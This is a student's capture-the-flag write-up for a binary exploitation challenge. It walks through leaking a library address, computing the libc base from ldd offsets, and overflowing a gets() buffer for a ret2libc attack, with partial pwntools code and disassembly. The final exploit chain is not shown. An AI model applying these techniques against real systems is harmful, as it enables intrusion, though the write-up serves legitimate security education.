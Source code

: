 # bin11:Solution

This challenge was similar to my own (bin3), bin2, and the ret2libc challenge from earlier this semester. There are a few key differences that made this one far more difficult than it should have been (for me anyway)

The binary is compiled with NX and Partial RELRO
```
checksec 4memory_vr
[*] '/root/workspace/vuln/midterm/ctfd/tyler/4memory_vr'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

The initial output when the program is run is:
```
Welcome to Memory! Ready Player 8389928...
Here's the board:
    0   1   2   3
0 | $ | $ | $ | $ 
-----------------
1 | $ | $ | $ | $ 
-----------------
2 | $ | $ | $ | $ 
-----------------
3 | $ | $ | $ | $ 
-----------------
Choose an option: 
(F) Find a match 
(Q) Quit 
Choice:
```

Once you choose F you are prompted to enter two sets of coordinates. Looking at the binary in binja we can see that they need to be set to specific values to pass through to the exploitable portion of the program.
```
00401305      printf(format: "Pick first card (row, column): ")
00401324      __isoc99_scanf(format: "%d,%d", &var_60, &var_64)
00401338      printf(format: "Pick second card (row, column): ")
00401357      __isoc99_scanf(format: "%d,%d", &var_68, &var_6c)
00401386      if (var_60 == 1337 && var_68 == 31337 && var_64 == 31337 && var_6c == 1337)
```

The valid input is:
1337, 31337   
31337, 1337

The the program prints out the location of the function get_long_long. This function isn't part of libc. When trying to run locally, the program shows that it is looking for "libcs50". (I was unable to reproduce this for this report because I'd already added libcs50 to my path)

The libcs50 library has the funtion get_long_long. So we save the output of it's location locally and then symbolically find the location of get_long_long one the remote server. 
```
remote_get = int(p.recvline(), 16)

local_get = libcs.sym['get_long_long']
```

Using these values we can get the base address of libcs50. Then we need to get the base address of libc so that we can get to the gadgets we need. The pop rdi gadget isn't in libcs50.
```
ropper -f libcs50.so | grep pop
0x0000000000001884: pop rbp; clc; leave; ret; 
0x00000000000011f3: pop rbp; ret; 
```

This part took the most time due to the fact that the computer I was working on has issues with ldd. Most of the time it doesn't work, and this time it was pretty vital to the solve. 

ldd gave this output:
```
laptop: bin11$ ldd 4memory_vr_patched
        linux-vdso.so.1 (0x00007ffeb6948000)
        libcs50.so.11 => ./libcs50.so.11 (0x00007f89306ea000)
        libc.so.6 => ./libc.so.6 (0x00007f8930509000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f89306f1000)
```
 
However the output changes everytime it's run:
```
laptop: bin11$ ldd 4memory_vr_patched
        linux-vdso.so.1 (0x00007ffc2b1c1000)
        libcs50.so.11 => ./libcs50.so.11 (0x00007fa5847e8000)
        libc.so.6 => ./libc.so.6 (0x00007fa584607000)
        /lib64/ld-linux-x86-64.so.2 (0x00007fa5847ef000)
laptop: bin11$ ldd 4memory_vr_patched
        linux-vdso.so.1 (0x00007ffec3d20000)
        libcs50.so.11 => ./libcs50.so.11 (0x00007ff012535000)
        libc.so.6 => ./libc.so.6 (0x00007ff012354000)
        /lib64/ld-linux-x86-64.so.2 (0x00007ff01253c000)
laptop: bin11$ ldd 4memory_vr_patched
        linux-vdso.so.1 (0x00007fff46f5a000)
        libcs50.so.11 => ./libcs50.so.11 (0x00007fc42b051000)
        libc.so.6 => ./libc.so.6 (0x00007fc42ae70000)
        /lib64/ld-linux-x86-64.so.2 (0x00007fc42b058000)
```

However the distance between libc and libcs50 is consistent so we can just use one output to calculate the difference between the two. 
```
ldd_cs50 = int(0x00007f89306ea000)
ldd_libc = int(0x00007f8930509000)

# libc offset (difference between libc and libcs50
offset_libc = ldd_cs50 - ldd_libc
```

Then we can use the base address of libcs50 and the difference between it and libc to get the base address of libc. 
```
# libc base address of running program
base = offset_cs50 - offset_libc
```

Looking at the program in binja we can get the size of the buffer to overflow 48 + base pointer = 56
```
004013db  488d45d0           lea     rax, [rbp-48 {var_38}]
004013df  4889c7             mov     rdi, rax {var_38}
004013e2  b800000000         mov     eax, 0x0
004013e7  e8a4fcffff         call    gets
```

From here I could use the exact same lines of code I've used for a number of challenges and get the flag!
```
flag{d0_u_b3li3v3}
```

Resources:
* my own [challenge](https://github.com/kourtnee/VR_HW/tree/main/Midterm/bin3)
* the [ret2libc]() challenge
* BIG thanks to Louie for sending me the output of ldd so that I could calculate the distance between the libararies (all ldd output in this report comes from his laptop via discord)
* Tyler sent me the slides from his my-first-pwn presentation which helped with figuring out how to calculate the base addresses
